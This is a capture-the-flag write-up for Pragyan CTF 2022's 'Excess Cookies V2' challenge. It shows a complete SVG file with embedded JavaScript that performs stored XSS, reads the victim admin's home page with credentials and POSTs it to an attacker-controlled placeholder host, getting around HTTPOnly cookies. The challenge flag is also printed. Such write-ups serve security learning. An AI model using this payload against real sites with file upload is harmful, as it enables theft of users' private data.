 # Pragyan CTF 2022: Excess Cookies V2
## Write-Up

1) This challenge is an updates version of previous challenge.
So basically XSS will be there but in a much difficult way.

4) Now we will check for XSS, by means of uploading SVG file. But this time no XSS will be loaded in that page.

5) When you visit the profile pic URL, you will get the XSS triggered.

6) Also as an updated version, cookies stealing wont work because now it is made HTTPOnly. 

7) Now our aim is to make admin trigger our XSS payload in SVG file and make him a request to his home page where the flag is there and send that response to that request to us.

Sample SVG-XSS payload for that response redirect is,

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" id="Layer_1" x="0px" y="0px" width="100px" height="100px" viewBox="-12.5 -12.5 100 100" xml:space="preserve"> 
  <g>
    <polygon fill="#00B0D9" points="41.5,40 38.7,39.2 38.7,47.1 41.5,47.1 "></polygon>
    <script type="text/javascript">
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
          var xhr2 = new XMLHttpRequest();
          xhr2.open("POST", "your-public-ip", true);
          xhr2.send(xhr.responseText);
        }
      }   
      xhr.open("GET", "https://challenge-domain/home");
      xhr.withCredentials = true;
      xhr.send();
    </script>
  </g>
</svg>
```

By using the above payload, you will be able to get the flag in POST request to your hosted server.

The flag is 
```
p_ctf{x33_a4d_svg_m4k3s_b3st_p41r_on1y_w1th_http_0nly}
```